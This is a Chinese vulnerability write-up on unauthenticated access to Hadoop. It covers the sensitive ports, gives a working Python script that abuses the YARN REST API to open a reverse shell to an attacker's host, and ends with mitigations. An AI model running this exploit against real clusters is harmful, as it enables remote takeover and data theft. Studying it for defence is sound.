 Hadoop未授权访问
================

一、漏洞简介
------------

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce
> 算法进行分布式处理。这个框架被Adobe，Last
> fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

-   用户创建一个处理键值的map函数

-   产生了一套中间键/值

-   reduce函数合并中间值并把他们关联到对应的键

二、影响范围
------------

三、复现过程
------------

#### 1. 扫描探测

##### 1.1 常见端口

![](resource/Hadoop未授权访问/media/rId26.png)

##### 1.2 敏感端口

  模块        节点                     默认端口
  ----------- ------------------------ ----------
  HDFS        NameNode                 50070
  HDFS        SecondNameNode           50090
  HDFS        DataNode                 50075
  HDFS        Backup/Checkpoint node   50105
  MapReduce   JobTracker               50030
  MapReduce   TaskTracker              50060

通过访问 NameNode WebUI 管理界面的 50070
端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075
开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS
存储的数据进行操作。

![](resource/Hadoop未授权访问/media/rId28.png)

#### 2. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST
API 也可以提交任务执行。

利用过程如下：

-   在本地监听等待反弹 shell 连接

-   调用 New Application API 创建 Application

-   调用 Submit Application API 提交

**P牛的攻击脚本**

    ##!/usr/bin/env python

    import requests

    target = 'http://127.0.0.1:8088/'
    lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)

![](resource/Hadoop未授权访问/media/rId30.png)

#### 3. 防范措施

网络访问控制 使用 安全组防火墙 或本地操作系统防火墙对访问源 IP
进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop
服务所有端口发布到互联网。

启用认证功能 启用 Kerberos 认证功能。

更新补丁 不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。
